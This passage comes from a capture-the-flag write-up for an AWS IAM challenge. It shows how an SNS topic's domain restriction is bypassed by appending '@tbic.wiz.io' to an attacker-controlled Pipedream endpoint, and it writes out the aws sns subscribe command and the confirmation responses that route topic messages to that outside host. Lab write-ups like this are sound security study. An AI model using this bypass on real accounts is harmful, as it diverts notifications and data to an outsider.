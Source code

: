 2. **Subscribing to the SNS Topic:**
   - I subscribed to the SNS topic using a custom endpoint (`https://eoz7q6sn8xygiyy.m.pipedream.net/@tbic.wiz.io`), which meets the domain requirement.
  
   - Create HTTPS Endpoint & Capture Responses using Pipedream :

Step 1: Create a Workflow
1. Go to Pipedream Dashboard
2. Click "+ New" and choose Workflow
3. In "Trigger", select:
HTTP / Webhook → "New Requests (HTTP Trigger)"
4. Pipedream will generate a unique HTTPS endpoint (in my case `https://eoz7q6sn8xygiyy.m.pipedream.net/`)

   ```bash
   aws sns subscribe --topic-arn "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications" --protocol https --notification-endpoint https://eoz7q6sn8xygiyy.m.pipedream.net/@tbic.wiz.io
   ```

   The response showed that the subscription was pending confirmation.

3. **Confirming the Subscription:**
   - I received a subscription confirmation message via the request bin, which included a `SubscribeURL`.
   ```json
   {
     "Message": "You have chosen to subscribe to the topic arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications.",
     "SubscribeURL": "https://sns.us-east-1.amazonaws.com/?Action=ConfirmSubscription&TopicArn=arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications&Token=2336412f37fb687f5d51e6e2425a8a5875c3b40d43a87e57bf4cf2ded38a3d452f550e8081f1a405d1034eaa65ab868ffb28a01544c874c441e9dd1d670b947e0c814cf06430805cafd41f4f210e9b32cbfcca69f349f61197dbc47f758746c001f8261091d866529fe02fc127def2b3b80d19c73b590b91fd1d7259544f096f"
   }
   ```

4. **Visiting the Confirm Subscription URL:**
   - After confirming the subscription, I received a confirmation response containing the `SubscriptionArn`:

   ```xml
   <ConfirmSubscriptionResponse xmlns="http://sns.amazonaws.com/doc/2010-03-31/">
     <ConfirmSubscriptionResult>
       <SubscriptionArn>arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications:7e284ae3-0fd6-4cc5-95e6-1a033974d5d9</SubscriptionArn>
     </ConfirmSubscriptionResult>
   </ConfirmSubscriptionResponse>
   ```

   in response, of pipedream, youll find the **flag**
---

## Challenge C4: Admin only?

**Challenge Value:** 10 points  
**Description:**  
The bucket appears to restrict access to a specific admin IAM user, but a misconfiguration allows public access.

